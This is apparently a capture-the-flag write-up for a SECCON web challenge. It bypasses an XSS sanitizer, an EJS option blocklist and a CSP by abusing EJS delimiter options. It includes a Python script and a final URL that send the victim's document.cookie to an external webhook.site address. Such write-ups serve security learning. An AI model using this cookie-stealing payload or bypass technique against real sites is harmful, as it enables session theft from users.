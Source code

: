 ## Source
We are given the following `index.js`:
```js
const express = require("express");
const { xss } = require("express-xss-sanitizer");
const { execFile } = require("node:child_process");
const util = require("node:util");

const app = express();
const PORT = 3000;

// Mitigation 1:
app.use(xss());

// Mitigation 2:
app.use((req, res, next) => {
  // A protection for RCE
  // FYI: https://github.com/mde/ejs/issues/735

  const evils = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals",
    "escape",
  ];

  const data = JSON.stringify(req.query);
  if (evils.find((evil) => data.includes(evil))) {
    res.status(400).send("hacker?");
  } else {
    next();
  }
});

// Mitigation 3:
app.use((req, res, next) => {
  res.set("Content-Security-Policy", "default-src 'self'");
  next();
});

app.get("/", async (req, res) => {
  req.query.filename ??= "index.ejs";
  req.query.name ??= "ejs";

  const proc = await util
    .promisify(execFile)(
      "node",
      [
        // Mitigation 4:
        "--experimental-permission",
        `--allow-fs-read=${__dirname}/src`,

        "render.dist.js",
        JSON.stringify(req.query),
      ],
      {
        timeout: 2000,
        cwd: `${__dirname}/src`,
      }
    )
    .catch((e) => e);

  res.type("html").send(proc.killed ? "Timeout" : proc.stdout);
});

app.listen(PORT);
```
With the following `render.js`:
```js
const ejs = require("ejs");

const { filename, ...query } = JSON.parse(process.argv[2].trim());
ejs.renderFile(filename, query).then(console.log);
```
And there's also `index.ejs`:
```html
<marquee height="100%" scrollamount="16" direction="down" behavior="alternate">
  <marquee scrollamount="24" behavior="alternate">
    <h1>Hello, <%= name %>!</h1>
  </marquee>
</marquee>
```
### View options, XSS and CSP
So the goal is `XSS` and we control `query` which allows us to control the `view options`, which is a typical vector for `RCE` when passed to `renderFile` like this. However, 4 mitigations are in place, which seem to rule out `RCE`, but we can still control the delimiters within `view options`, besides some other options

We should also note that the CSP is `default-src 'self'`, so we need to take that into account when looking for `XSS`.

## express-xss-sanitizer bypass
One problem with this challenge, was that we thought the xss-sanitizer was not so easy to bypass. It took us a long time to realise that we could smuggle html tags within the keys of the query parameters, like so:
```
http://web:3000/?filename=render.dist.js&src[<img src=x onerror=alert(1)>]
```
The sanitizer doesn't touch those apparently.

## Gadget hunt
Let's look at what kind of view options we can control (already filtering out the `evils`):
```js
  options.client = opts.client || false;
  options.compileDebug = opts.compileDebug !== false;
  options.debug = !!opts.debug;
  options.filename = opts.filename;
  options.openDelimiter = opts.openDelimiter || exports.openDelimiter || _DEFAULT_OPEN_DELIMITER;
  options.closeDelimiter = opts.closeDelimiter || exports.closeDelimiter || _DEFAULT_CLOSE_DELIMITER;
  options.delimiter = opts.delimiter || exports.delimiter || _DEFAULT_DELIMITER;
  options.strict = opts.strict || false;
  options.context = opts.context;
  options.cache = opts.cache || false;
  options.rmWhitespace = opts.rmWhitespace;
  options.root = opts.root;
  options.includer = opts.includer;
  options.views = opts.views;
  options.async = opts.async;
  options.legacyInclude = typeof opts.legacyInclude != 'undefined' ? !!opts.legacyInclude : true;
  ```
The obvious ones are `openDelimiter`, `closeDelimiter`, `delimiter`, which were the only ones that we ended up using. With these we can render a filename of our choice and we have many option for what to render exactly within the file that we render. There are three files that we can choose from that we can render: `index.ejs`, `render.js` and `render.dist.js`. The last one being the obvious choice to hunt for gadgets. There was a lot to choose from and hopefully all teams will share which gadget they used after the deadline or maybe the author can compile an overview of the gadgets that the teams found. We ended up using the `console.log` (because `proc.stdout` was returned by `index.js`) that could be found in this snippet:
```js
if (opts.strict) {
    src = '"use strict";\n' + src;
}
if (opts.debug) {
    console.log(src);
}
if (opts.compileDebug && opts.filename) {
    src = src + "\n//# sourceURL=" + sanitizedFilename + "\n";
}
```
So here's an example with html injection:
```
http://eeeeejs.seccon.games:3000/?filename=render.dist.js&src[%3Ch1%3EHEY%3C/h1%3E]=UNESCAPED&settings[view%20options][delimiter]=%20&settings[view%20options][openDelimiter]=(opts.debug)&settings[view%20options][closeDelimiter]=%20%20%20%20%20%20%20var%20returnedFn%20=
```
Now we don't have `XSS` yet, because we still need to bypass the CSP, but we could just include a script tag with a `src` that will render this file again, but in this case the returned text will be evaluated as javascript. Now we can just use `src=JAVASCRIPT_PAYLOAD`, because we don't need html tags for this:
```
http://eeeeejs.seccon.games:3000/?filename=render.dist.js&src=alert(1)&settings[view%20options][delimiter]=%20&settings[view%20options][openDelimiter]=(opts.debug)&settings[view%20options][closeDelimiter]=%20%20%20%20%20%20%20var%20returnedFn%20=
```
Now we have everything to get the flag, although encoding was a bit tricky, but we write a script for that.

## Payload
We wrote the following script to generate our final url:
```py
import urllib.parse

webhook_url = 'https://webhook.site/cae461f6-3930-48bf-9cfd-d47cba2d0ff5'

script_payload = f"window.location.href=`{webhook_url}?`+document.cookie"
script_payload = urllib.parse.quote_plus(script_payload)

url = f"/?filename=render.dist.js&src={script_payload}&settings[view options][delimiter]=%20&settings[view options][openDelimiter]=(opts.debug)&settings[view%20options][closeDelimiter]=%20%20%20%20%20%20%20var%20returnedFn%20="
url = url.replace("[", "%5B")
url = url.replace("]", "%5D")

xss_payload = f"<script src='{url}'></script>"
xss_payload = urllib.parse.quote_plus(xss_payload)

final = f"http://web:3000/?filename=render.dist.js&src[{xss_payload}]=UNESCAPED&settings[view options][delimiter]=%20&settings[view%20options][openDelimiter]=(opts.debug)&settings[view%20options][closeDelimiter]=%20%20%20%20%20%20%20var%20returnedFn%20="
print(final)
```
Resulting in this url:
```
http://web:3000/?filename=render.dist.js&src[%3Cscript+src%3D%27%2F%3Ffilename%3Drender.dist.js%26src%3Dwindow.location.href%253D%2560https%253A%252F%252Fwebhook.site%252Fcae461f6-3930-48bf-9cfd-d47cba2d0ff5%253F%2560%252Bdocument.cookie%26settings%255Bview+options%255D%255Bdelimiter%255D%3D%2520%26settings%255Bview+options%255D%255BopenDelimiter%255D%3D%28opts.debug%29%26settings%255Bview%2520options%255D%255BcloseDelimiter%255D%3D%2520%2520%2520%2520%2520%2520%2520var%2520returnedFn%2520%3D%27%3E%3C%2Fscript%3E]=UNESCAPED&settings[view options][delimiter]=%20&settings[view%20options][openDelimiter]=(opts.debug)&settings[view%20options][closeDelimiter]=%20%20%20%20%20%20%20var%20returnedFn%20=
```
Which results in a request to our webhook:
```
https://webhook.site/cae461f6-3930-48bf-9cfd-d47cba2d0ff5?FLAG=SECCON{RCE_is_po55ible_if_mitigation_4_does_not_exist}
```
### Flag :triangular_flag_on_post:
```
SECCON{RCE_is_po55ible_if_mitigation_4_does_not_exist}
```
